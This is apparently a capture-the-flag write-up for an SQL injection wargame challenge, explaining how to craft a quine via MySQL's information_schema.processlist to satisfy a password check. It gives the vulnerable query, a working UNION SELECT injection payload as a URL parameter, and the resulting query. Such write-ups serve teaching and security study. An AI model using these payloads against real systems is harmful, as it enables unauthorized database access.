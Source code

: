 ```yaml
---
custom_edit_url: null
sidebar_position: 31
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/619f9f68-e38d-47a0-a15b-ff662242c83b)

We are provided with the SQL query:

```sql
SELECT pw FROM prob_zombie WHERE pw='{$_GET[pw]}'
```

Similar to [ouroboros], in this challenge, we have to use a Quine in order to solve it.
However, since `ace` is being filtered out, we have to find another way of crafting our Quine.

&nbsp;

## `information_schema.processlist` table

As noted by [this documentation](https://dev.mysql.com/doc/refman/8.4/en/information-schema-processlist-table.html), in MySQL, the `information_schema.processlist` is one source of process information which indicates the operations currently being performed by the set of threads executing within the server.

### `info` column

Within this table, the `info` column contains the statement that is being executed as show below.

![3](https://github.com/Kunull/Write-ups/assets/110326359/883c41a1-9cb1-4b55-98b3-641f02529310)

```sql
SELECT info FROM information_schema.processlist
```

Since the above query is being executed, the value present in the `info` column of `information_schema.processlist` would be:

```
+-------------------------------------------------+
| info                                            |
+-------------------------------------------------+
| SELECT info FROM information_schema.processlist |
+-------------------------------------------------+
```

As we can see, the SQL query outputs itself, thus acting as a Quine.

&nbsp;

## Modified Quine

```sql
1' UNION SELECT substr(info,locate('1',info),length(info)-locate('1',info)) FROM information_schema.processlist %23
```

- **`substr(info,locate('1',info),length(info)-locate('1',info))`**:
    - `locate('1', info)` finds the position of the first occurrence of the character `'1'` in the `info` column.
    - `length(info)` gives the total length of the `info` column's content.
    - `length(info)-locate('1',info)` calculates the length of the substring starting from the first occurrence of `'1'` to the end of the `info` content.
    - `substr(info, locate('1', info), length(info) - locate('1', info))` extracts this substring.
- **`from information_schema.processlist`**:   
    - This specifies the table from which the data is being selected. The `information_schema.processlist` table contains information about the currently running processes in the MySQL database server.

&nbsp;

If we provide the following URI parameter:

```
?pw=1' UNION SELECT substr(info,locate('1',info),length(info)-locate('1',info)) FROM information_schema.processlist %23
```

The resultant query becomes:

```sql
SELECT pw FROM prob_zombie WHERE pw='1' UNION SELECT substr(info,locate('1',info),length(info)-locate('1',info)) FROM information_schema.processlist #'
```

![2](https://github.com/Kunull/Write-ups/assets/110326359/606cc988-e99e-4db2-90fc-25387e44ccc7)
